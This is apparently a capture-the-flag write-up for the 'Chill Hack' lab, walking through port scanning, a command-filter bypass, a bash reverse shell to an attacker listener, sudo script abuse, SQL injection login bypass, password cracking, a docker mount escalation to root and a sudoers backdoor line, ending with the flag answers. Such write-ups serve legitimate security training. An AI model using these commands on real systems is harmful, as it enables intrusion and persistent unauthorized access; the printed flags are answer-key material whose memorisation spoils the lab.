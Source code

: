 
# Chill Hack

* IP = 10.201.18.16

## Enumerating And Scanning:

* Nmap scan to discover open ports:
`nmap -sC -sV -vv $IP`
* **Nmap Scan Results:**
```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcxgJ3GDCJNTr2pG/lKpGexQ+zhCKUcUL0hjhsy6TLZsUE89P0ZmOoQrLQojvJD0RpfkUkDfd7ut4//Q0Gqzhbiak3AIOqEHVBIVcoINja1TIVq2v3mB6K2f+sZZXgYcpSQriwN+mKgIfrKYyoG7iLWZs92jsUEZVj7sHteOq9UNnyRN4+4FvDhI/8QoOQ19IMszrbpxQV3GQK44xyb9Fhf/Enzz6cSC4D9DHx+/Y1Ky+AFf0A9EIHk+FhU0nuxBdA3ceSTyu8ohV/ltE2SalQXROO70LMoCd5CQDx4o1JGYzny2SHWdKsOUUAkxkEIeEVXqa2pehJwqs0IEuC04sv
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFetPKgbta+pfgqdGTnzyD76mw/9vbSq3DqgpxPVGYlTKc5MI9PmPtkZ8SmvNvtoOp0uzqsfe71S47TXIIiQNxQ=
|   256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKHq62Lw0h1xzNV41zO3BsfpOiBI3uy0XHtt6TOMHBhZ
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* FTP Anonymous login is permitted i.e. Login to FTP server with `anonymous` username and no password is allowed.
* FTP has only one file:`note.txt`<br>
![Screenshot](./assets/2.png)<br>

* Contents of `note.txt`:
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
* `anurodh` and `apaar` usernames are noted for later use.
* The website view of main page:<br>
![Screenshot](./assets/1.png)

* Used `gobuster` to scan to find any other hidden directories on the website:
* **Gobuster Scan Results:**
```
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/secret (Status: 301)
/server-status (Status: 403)
=====================================================
2022/07/30 19:12:47 Finished
=====================================================
```
* `/secret` directory of the website:<br>
![Screenshot](./assets/3.png)
* Basic commands like `ls` or `cat` can't be executed:<br>
![Screenshot](./assets/4.png)
* But, `id` command was executed successfully:<br>
![Screenshot](./assets/5.png)
* Searched for some bash reverse shell payloads from <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey</a>.
* But `bash -i >& /dev/tcp/10.4.50.128/7777 0>&1` can't be used.<br>
![Screenshot](./assets/4.png)
* Using `/bin/bash` instead of `bash` works.

## Exploitation/Gaining Access:

* Finally this payload worked properly:`/bin/bash -c '/bin/bash -i >& /dev/tcp/10.4.50.128/7777 0>&1'`, with a netcat listener:`nc -lnvp 7777`<br>
![Screenshot](./assets/6.png)
* Next, some basic enumeration in the home directory:<br>
![Screenshot](./assets/7.png)
* Sudo commands that can be run by `www-data` user:<br>
![Screenshot](./assets/8.png)
* Hence the following command can be used to run `.helpline.sh` as `apaar` user:`sudo -u apaar /home/apaar/.helpline.sh`. Now, since the above code directly passes the given input and runs the command without parsing, giving `/bin/bash` as input will spawn a shell with `apaar` user privileges.
![Screenshot](./assets/9.png)<br>
* The file `local.txt` in `apaar` user's home directory is the required user flag.<br>
![Screenshot](./assets/10.png)

## Post Exploitation

* First enumerate the running processes with `ps aux` and the running webservices/network services with:`netstat -anlp | grep LISTEN`:<br>
![Screenshot](./assets/11.png)
* The service running on port `9001` at localhost seemd strange, hence it was port forwarded via SSH.
* Generated a new ssh key-pair with `ssh-keygen` on local machine:<br>
![Screenshot](./assets/12.png)
* Copied the `id_rsa.pub` or the public key into the authorized_keys file inside `.ssh` directory of `/home/apaar`.
* Now SSH 'ed into the server with:`ssh -i id_rsa apaar@10.10.175.103 -L 9001:127.0.0.1:9001` using forwarded port.
* `-L` flag signifies the following:
```
Specifies that connections to the given TCP port or Unix socket on the local (client) host are to be forwarded to the given host and port, or Unix socket, on the remote side.
```
* In local machine, the process is found in the same port:<br>
![Screenshot](./assets/13.png)<br>
* Visited the running service on browser with `localhost:9001` which brings here:<br>
![Screenshot](./assets/14.png)
* This login page is vulnerable to basic SQL injection, hence logged in with:`admin' or 1=1 --`.
* Which brings here:<br>
![Screenshot](./assets/15.png)
* Next, downloaded the image file:<br>
![Screenshot](./downloads/download.jpg)<br>
* Using `steghide extract -sf download.jpg` a zip file can be extracted, which is infact password protected. Cracked the zipfile password with:`fcrackzip -D -u -p rockyou.txt backup.zip`, and the password was found as:`pass1word`.
* Significance of the flags:
```
-D -> dictionary style password search
-u -> decompresses the file while trying a password, evades out false positives
-p -> specify the password file
```
* Unzipping the zipfile reveals a source code written in php, which has a *base64* encoded password of `anurodh`:<br>
![Screenshot](./assets/16.png)
* Which can be decoded as:`!d0ntKn0wmYp@ssw0rd`.

## Privilege Escalation

* SSH into the server as `anurodh` and password as:`!d0ntKn0wmYp@ssw0rd`.
* The most initial enumeration reveals `anurodh` is in the `docker` group, which means anything from the filesystem can be mounted into the docker containers and run as root.
```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```
* Checked if any docker images are already present with:`docker images`. There is an `alpine` image, which can be used.
* Easiest way to get the root flag is by mounting the whole filesystem into a docker container and navigate inside the `root` home directory by executing:`docker run --rm -it --privileged -v /:/mnt alpine`:<br>
![Screenshot](./assets/17.png)<br>
* The arguments signifies the following:
```
run -> runs the container
--rm -> removes previously present containers using same image
-it -> interactive shell, to get a shell inside the container
--privileged -> keep the privileges
-v -> specify the volume to be mounted, here / is mounted to /mnt
```
* The file named `proof.txt` inside the `/mnt/root` directory will contain the root flag.:<br>
![Screenshot](./assets/18.png)
* Another way of actually escalating privileges would be by modifying the `/etc/sudoers` file by adding the line:

```yaml
anurodh ALL=(ALL) NOPASSWD: ALL
```
* So that anyone can become root without authentication. To try this, exit out of the container and change privileges to root with: `sudo su`:<br>
![Screenshot](./assets/19.png)


## Questions/Tasks:

1. User Flag:

**Ans-{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**

2. Root Flag:

**Ans-{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}**
